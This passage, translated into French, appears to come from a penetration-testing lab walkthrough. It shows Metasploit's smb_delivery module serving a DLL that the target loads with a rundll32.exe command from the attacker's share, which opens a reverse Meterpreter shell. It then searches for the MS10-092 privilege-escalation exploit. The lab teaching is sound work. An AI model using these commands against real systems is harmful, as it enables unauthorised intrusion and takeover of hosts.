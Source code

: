 ```
[*] Exploit exécuté en arrière-plan 1.
[*] Exploit terminé, mais aucune session n'a été créée.
[*] Démarrage du gestionnaire TCP inversé le 10.10.14.3:4444
[*] Auditeur de service démarré le 10.10.14.3:445
[*] Le serveur a démarré.
[*] Exécutez la commande suivante sur la machine cible :
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0

```

#### Commande Rundll sur l'hôte cible

Ouvrez une console cmd sur l'hôte cible et collez la commande `rundll32.exe` .

Commande Rundll sur l'hôte cible

```
C:\htb> rundll32.exe \\10.10.14.3\lEUZam\test.dll,0

```

#### Réception d'une coque inversée

Nous recevons un rappel rapidement.

Réception d'une coque inversée

```
msf6 exploit(windows/smb/smb_delivery) > [*] Étape d'envoi (175174 octets) à 10.129.43.15
[*] Session Meterpreter 1 ouverte (10.10.14.3:4444 -> 10.129.43.15:49609) au 2021-05-12 15:55:05 -0400

```

#### Recherche d'un exploit d'escalade de privilèges local

À partir de là, recherchons le module [MS10_092 Windows Task Scheduler '.XML' Privilege Escalation](https://www.exploit-db.com/exploits/19930) .

Recherche d'un exploit d'escalade de privilèges local

```
exploit msf6 (windows/smb/smb_delivery)> recherche 2010-3338

Modules correspondants
================
    # Nom Divulgation Date Rang Vérification Description
    - ---- --------------- ---- ----- -----------
    0 exploit/windows/local/ms10_092_schelevator 2010-09-13 excellent Oui Windows Escalate Task Scheduler XML Privilege Escalation

exploit msf6 (windows/smb/smb_delivery) utiliser 0

```

#### Migration vers un processus 64 bits
